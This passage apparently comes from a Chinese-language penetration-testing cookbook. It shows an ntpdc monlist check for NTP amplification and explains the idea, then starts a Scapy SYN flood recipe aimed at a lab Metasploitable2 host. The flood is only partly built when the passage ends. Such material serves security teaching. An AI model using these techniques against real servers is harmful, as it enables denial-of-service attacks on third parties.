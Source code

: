 ```
root@KaliLinux:~# ntpdc -c monlist 172.16.36.3 
remote address          port local address      count m ver rstr avgint  lstint
========================================================================= ====== 
host.crossing.com        123 172.16.36.3           18 4 4    1d0     35       1 
grub.ca.us.roller.o      123 172.16.36.3           17 4 4    1d0     37      35 
va-time.utility.o        123 172.16.36.3           17 4 4    1d0     37      59 
cheezpuff.meatball.n     123 172.16.36.3           17 4 4    1d0     38      62 
pwnbox.lizard.com        123 172.16.36.3           35 4 4    5d0     65      51 
```

或者，如果返回了一系列主机和连接元数据，则远程服务器可能能够用于放大攻击。 对于与服务器交互的每个新主机，会在此列表中添加一个新条目，响应的大小以及可能的载荷会变得更大。

放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：

*   用于执行攻击的协议不验证请求源
*   来自所使用的网络功能的响应应该显着大于用于请求它的请求。

NTP 放大攻击的效率取决于 NTP 查询的响应大小。 另外，可以通过使用多个 NTP 服务器来增加攻击的威力。

## 6.7 SYN 泛洪 DoS 攻击

SYN 泛洪 DoS攻击是一种资源消耗攻击。 它的原理是向作为攻击目标的服务相关的远程端口发送大量 TCP SYN 请求。 对于目标服务接收的每个初始 SYN 分组，然后会发送出 SYN + ACK 分组并保持连接打开，来等待来自发起客户端的最终 ACK 分组。 通过使用这些半开请求使目标过载，攻击者可以使服务无响应。

### 准备

为了使用 Scapy 对目标执行完整的 SYN 泛洪，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

为了使用 Scapy 执行 SYN 泛洪，我们需要通过与目标服务关联的端口发送 TCP SYN 请求来开始。 为了向任何给定端口发送 TCP SYN 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0) 
>>> i = IP() 
>>> i.display() 
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 127.0.0.1
  dst= 127.0.0.1
  \options\ 
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
```